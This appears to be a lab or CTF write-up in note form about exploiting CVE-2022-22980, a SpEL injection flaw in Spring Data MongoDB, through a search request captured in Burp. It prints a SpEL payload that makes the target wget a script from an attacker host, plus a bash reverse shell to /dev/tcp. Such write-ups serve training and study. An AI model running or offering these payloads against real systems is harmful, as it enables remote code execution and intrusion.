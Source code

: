   

### SpringData ✅

![[Untitled 19 3.png|Untitled 19 3.png]]

Ín the source code

![[Untitled 20 3.png|Untitled 20 3.png]]

This is the default error page of SpingBoot Framework

![[Untitled 21 3.png|Untitled 21 3.png]]

Looking for mongodb springboot vulnerability I found

> [!info] Spring Data MongoDB SpEL Expression Injection Vulnerability (CVE-2022-22980)  
> Level up your Java code and explore what Spring can do for you.  
> [https://spring.io/blog/2022/06/20/spring-data-mongodb-spel-expression-injection-vulnerability-cve-2022-22980](https://spring.io/blog/2022/06/20/spring-data-mongodb-spel-expression-injection-vulnerability-cve-2022-22980)  

If we look for a PoC or a exploit for this CVE

> [!info] Spring_cve-2022-22980/payload at main · Vulnmachines/Spring_cve-2022-22980  
> spring data mongodb remote code execution | cve-2022-22980 poc - Vulnmachines/Spring_cve-2022-22980  
> [https://github.com/Vulnmachines/Spring_cve-2022-22980/blob/main/payload](https://github.com/Vulnmachines/Spring_cve-2022-22980/blob/main/payload)  

Now with the request we intercepted in Burp lets paste the payload after we do some changes

![[Untitled 22 3.png|Untitled 22 3.png]]

![[Untitled 23 2.png|Untitled 23 2.png]]

This was not posible so ill try to create the script and then download it in the victim machine.  
Now what worked for me is that I captured the POST request of the search bar and there I injected the payload.  

Finally i have to download the script to victim’s machine i injected the RCE wget and used python server

![[Untitled 24 2.png|Untitled 24 2.png]]

DOES NOT WORKS  
This is the payload used for this exploitation of SpEL  

`T(java.lang.Runtime).getRuntime().exec("wget http://<Attacker_IP>:<PORT>/script -o /dev/shm/script")`

As seen, I'm using the temporary directory /dev/shm but is it also possible to use /tmp

This is the how I created the script binary.

```Python
cat > script <<EOF
bash -i &>/dev/tcp/10.10.14.22/7777 0>&1
EOF
```
